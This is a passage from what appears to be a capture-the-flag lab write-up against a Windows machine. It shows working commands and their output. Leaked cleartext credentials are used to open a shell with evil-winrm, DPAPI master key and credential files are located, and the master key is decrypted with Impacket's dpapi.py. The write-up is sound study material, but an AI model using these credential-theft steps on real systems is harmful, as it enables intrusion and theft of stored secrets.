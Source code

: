 After unzipping the file we find a file named `nms-auth-config.xml.bak` that the clear text password of user `steph.cooper`.

We can use the credentials to get a shell via winrm

```terminal
[★]$ evil-winrm -i puppy.htb -u steph.cooper -p 'ChefSteph2025!'                                                                                     
Evil-WinRM shell v3.5

*Evil-WinRM* PS C:\Users\steph.cooper\Documents>
```

Checking the user's AppData folder we can find Credentials that holds user credential files used by Windows Credential Manager, and we also find Protect folder which stores DPAPI master keys, which Windows uses to encrypt and decrypt data inside the Credentials folder.

```terminal
*Evil-WinRM* PS C:\Users\steph.cooper\appdata\roaming\microsoft> ls


    Directory: C:\Users\steph.cooper\appdata\roaming\microsoft


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-          3/8/2025   7:53 AM                Credentials
d---s-          3/8/2025   7:40 AM                Crypto
d-----          3/8/2025   7:40 AM                Internet Explorer
d-----          3/8/2025   7:40 AM                Network
d---s-          3/8/2025   7:40 AM                Protect
d-----          5/8/2021   1:20 AM                Spelling
d---s-         2/23/2025   2:35 PM                SystemCertificates
d-----         2/23/2025   2:36 PM                Vault
d-----          3/8/2025   7:52 AM                Windows

```

The two files we need to download are the following.

```terminal
C:\Users\steph.cooper\appdata\roaming\microsoft\protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9
```

Now with the help of `dpapi.py` we can decrypt the master key using steph's password.

```terminal
dpapi.py masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107                                 [19/412]
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[MASTERKEYFILE]
Version     :        2 (2)  
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407                                                                                                                                            
Flags       :        0 (0)  
Policy      : 4ccf1275 (1288639093)                                                                                                                                                           
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)  
DomainKeyLen: 00000174 (372)
               
Decrypted key with User Key (MD4 protected)                                                                                                                                                   
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```